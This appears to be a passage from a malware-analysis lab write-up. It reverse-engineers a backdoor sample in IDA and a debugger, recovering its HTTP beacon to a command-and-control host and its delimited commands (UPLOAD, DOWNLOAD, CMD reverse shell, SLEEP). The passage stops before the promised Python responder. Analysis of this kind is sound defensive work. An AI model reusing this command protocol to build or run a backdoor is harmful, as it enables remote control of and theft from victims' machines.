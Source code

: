 As noted before, if there is a registry key set, we can run the malware without any command-line parameters and it will go into a loop waiting for activity. We'll skip past the part where it reads from the registry and put a breakpoint at the command handler at `sub_402020`.

After stepping through the execution, we find that it tries to convert "param3" to a number with atoi and fails. IDA automatically correlates this variable with `hostshort`, so this might be a port number. Let's try setting this parameter in the registry to 80 and run again.

```
Lab09-01_patched.exe -c param1 param2 80 param4 abcd
```

Sure enough, this step now passes. The malware sets some parameters and calls a function with strings like "GET" and "HTTP/1.0", suggesting an HTTP connection. One of the parameters is "param2", one is 0x50 (which we've seen before as the hex for port 80), one is a mysterious string "QUAY/wVLs.3xG", and the other two are memory addresses. Let's see if we can figure out how these are used.

The first thing it does is try to establish a socket to "param2" on port 0x50. This must be where we specify the hostname. We have our mock network up and running, so let's specify a domain and update our registry config:

```
Lab09-01_patched.exe -c param1 practicalmalwareanalysis.com 80 param4 abcd
```

On this run through the mysterious string changed to "7FDj/1cdS.bY4". As we continue stepping through, it's appended with a couple other strings to form "GET 7FDj/1cdS.by4 HTTP/1.0" (plus some carriage returns at the end) and then sent over the socket. Then it waits for a response. If it doesn't get one, it quits. Otherwise, it keeps getting chunks until it gets one that contains `\r\n\r\n`, then returns the contents of the response.

Now that we've labeled this function in IDA, the following logic starts to make more sense. It checks for the string `` `'`'` ``, followed by the string `` '`'`' ``, and makes sure they are less than 0x400 characters apart. Then, at a guess, it extracts the command from between those indicators and returns it.

Finally, jumping back up, there's a series of if-checks to decide what to do for each command. UPLOAD and DOWNLOAD seem to expect a series of strings, like:

```
`'`'` UPLOAD [port] [filename] '`'`'
`'`'` DOWNLOAD [port] [filename] '`'`'
```

CMD opens a reverse shell, piping the output to a port, and wrapping the command in backticks to allow spaces:

```
`'`'` CMD [port] `[cmd]` '`'`'
```

SLEEP sleeps for the specified number of milliseconds:

```
`'`'` SLEEP [milliseconds] '`'`'
```

And NOTHING, as might be expected, does nothing.

The HTTP request the malware sends is malformed, so inetsim complains. And the malware is expecting a response after it sends its request, so a simple netcat listener won't do. Instead, we can whip up a simple Python responder on our Ubuntu analysis machine:

